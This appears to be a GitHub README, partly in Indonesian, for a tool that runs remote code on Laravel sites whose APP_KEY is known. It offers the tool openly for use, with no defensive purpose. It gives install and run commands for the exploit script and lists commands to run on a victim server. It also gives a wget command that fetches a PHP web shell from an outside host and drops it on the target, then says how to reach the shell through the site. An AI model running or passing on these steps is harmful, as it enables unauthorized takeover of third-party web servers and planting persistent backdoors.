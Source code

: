 ### Laravel_rce
Laravel Remote Code Execution With APP_KEY
```
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell
```
Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)
```
Akses : site.com/NamaShellNya.php



Subscribe My Channel:D
